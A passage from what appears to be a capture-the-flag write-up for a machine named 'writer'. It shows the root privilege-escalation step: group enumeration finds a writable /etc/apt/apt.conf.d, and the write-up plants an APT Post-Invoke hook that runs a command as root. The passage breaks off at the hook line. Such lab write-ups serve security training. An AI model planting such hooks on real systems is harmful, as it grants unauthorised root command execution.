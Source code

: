 # Privilege escalation to root
## `id` command shows that john is member of `management` group and using `find` to find files/folders owned by `management` group
 `id` command shows that john is member of `management` group and using `find` command to find files/folders owned by `management` group shows that ` /etc/apt/apt.conf.d` is owned by `management` group.
```bash
john@writer:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)
john@writer:~$ find / -group management 2>/dev/null
/etc/apt/apt.conf.d
john@writer:~$ ls -la /etc/apt/apt.conf.d
total 48
drwxrwxr-x 2 root management 4096 Oct  3 14:54 .
drwxr-xr-x 7 root root       4096 Jul  9 10:59 ..
-rw-r--r-- 1 root root        630 Apr  9  2020 01autoremove
-rw-r--r-- 1 root root         92 Apr  9  2020 01-vendor-ubuntu
-rw-r--r-- 1 root root        129 Dec  4  2020 10periodic
-rw-r--r-- 1 root root        108 Dec  4  2020 15update-stamp
-rw-r--r-- 1 root root         85 Dec  4  2020 20archive
-rw-r--r-- 1 root root       1040 Sep 23  2020 20packagekit
-rw-r--r-- 1 root root        114 Nov 19  2020 20snapd.conf
-rw-r--r-- 1 root root        625 Oct  7  2019 50command-not-found
-rw-r--r-- 1 root root        182 Aug  3  2019 70debconf
-rw-r--r-- 1 root root        305 Dec  4  2020 99update-notifier
john@writer:~$
```
## Using [link](https://reboare.gitbooks.io/booj-security/content/general-linux/privilege-escalation.html) to Create a file in  directory `/etc/apt/apt.conf.d` called, for example, `1000-pwned` and the write your hooks within it:

```
APT::Update::Post-Invoke {"id > /tmp/whoami";};
```